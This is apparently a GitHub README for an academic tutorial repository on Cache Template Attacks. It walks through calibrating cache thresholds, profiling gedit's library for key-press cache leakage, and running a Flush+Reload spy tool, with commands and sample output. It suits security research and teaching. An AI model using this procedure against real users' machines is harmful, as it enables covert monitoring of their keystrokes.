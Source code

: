 # Cache Template Attacks

Cache Template Attacks are a generic attack technique, allowing to profile and **exploit cache-based information leakage of any program automatically**, without prior knowledge of specific software versions or even specific system information.

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper was presented by Gruss, Spreitzer and Mangard (USENIX Security 2015). The underlying cache attack used is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (USENIX Security 2014).

This repository is intended to be a **tutorial to perform a side-channel attack on key presses timing in text editors**. The attack is performed in three steps, that can be found in their respective folders.


-----
## One note before starting

The programs should work on x86-64 Intel CPUs, and **the examples of usage have been tested to run for gedit on Ubuntu 18.04**. The Cache Template Attacks technique is independent of the operating system. More OS specific version of the tools, as well as other tools, are provided in the [IAIK repository](https://github.com/IAIK/cache_template_attacks).

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.


-----
## Step #1: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose, in the **calibration folder**:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. 

Based on the histogram, your first task is to find a suitable threshold value.

**Note:** In the other two programs a constant ```MIN_CACHE_MISS_CYCLES``` is defined. Change it based on your threshold, if necessary.


-----
## Step #2: Key press profiling
In our example, we monitor well observable events like key presses on a text editor, e.g. gedit. You find the profiling tools in the **profiling folder**.

We first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep libgedit
7fe1cabb6000-7fe1cac8f000 r-xp 00000000 fd:01 6423718                    /usr/lib/x86_64-linux-gnu/gedit/libgedit.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). 

This line can directly be passed to the profiling tool in this step, where we create a template. This tool requires you to generate the events somehow. We want to profile key presses, so the simplest way to do it is to just **jam a key while the profiling tool is running**, and create a Cache Template showing which addresses react on this key press. 

Run the following commands to find keypress information leakage in gedit (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling
make
sleep 3; ./profiling 200 7faec85f5000-7faec86cf000 r-xp 20000 fd:01 11930745                   /usr/lib/x86_64-linux-gnu/gedit/libgedit.so # in our example we profile keypresses in gedit
```

You are generally looking for addresses which have high peaks, like the following (done while pressing the key N in gedit):
```
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x242c0,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24300,   4
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24340,   3
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24380,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x243c0,  29
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24400,  32
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24440,  10
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24480,   9
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x244c0,  13
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24500,   8
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24540,   5
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24580,   8
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x245c0,  13
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24600,   6
```
The address 0x24400 had 32 cache hits during a probe duration of 200µs.

**Note down a few suitable addresses** with such high peaks. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. Out of scope of this tutorial, you can use libxdotool for this purpose. 



-----
## Step #3: Key presses

Switch to an already opened gedit window before ./spy is started, and try one of the addresses you noted down in step #2, by running the following lines:
```
cd exploitation
make
sleep 3; ./spy /usr/lib/x86_64-linux-gnu/gedit/libgedit.so <addr>
```


